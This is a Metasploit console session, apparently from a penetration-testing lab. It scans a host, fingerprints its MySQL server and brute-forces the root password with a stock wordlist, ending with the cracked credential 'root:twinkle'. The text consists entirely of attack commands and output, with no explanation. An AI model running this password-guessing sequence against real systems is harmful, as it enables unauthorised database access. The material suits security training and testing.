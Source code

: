 ```
msf5 > use auxiliary/scanner/portscan/tcp
msf5 auxiliary(scanner/portscan/tcp) > run

[+] 192.34.86.3:          - 192.34.86.3:3306 - TCP OPEN
[*] 192.34.86.3:          - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

```
msf5 auxiliary(scanner/portscan/tcp) > use auxiliary/scanner/mysql/mysql_version
msf5 auxiliary(scanner/mysql/mysql_version) > run

[+] 192.34.86.3:3306      - 192.34.86.3:3306 is running MySQL 5.5.61-0ubuntu0.14.04.1 (protocol 10)
[*] 192.34.86.3:3306      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

```
msf5 auxiliary(scanner/mysql/mysql_version) > use auxiliary/scanner/mysql/mysql_login
msf5 auxiliary(scanner/mysql/mysql_login) > show options

Module options (auxiliary/scanner/mysql/mysql_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BLANK_PASSWORDS   false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false            no        Add all passwords in the current database to the list
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   PASSWORD                           no        A specific password to authenticate with
   PASS_FILE                          no        File containing passwords, one per line
   Proxies                            no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS            192.34.86.3      yes       The target address range or CIDR identifier
   RPORT             3306             yes       The target port (TCP)
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads
   USERNAME                           no        A specific username to authenticate as
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false            no        Try the username as the password for all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           true             yes       Whether to print output for all attempts

msf5 auxiliary(scanner/mysql/mysql_login) > set USERNAME root
USERNAME => root
msf5 auxiliary(scanner/mysql/mysql_login) > set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
PASS_FILE => /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
msf5 auxiliary(scanner/mysql/mysql_login) > set VERBOSE false
VERBOSE => false
msf5 auxiliary(scanner/mysql/mysql_login) > run

[+] 192.34.86.3:3306      - 192.34.86.3:3306 - Success: 'root:twinkle'
[*] 192.34.86.3:3306      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
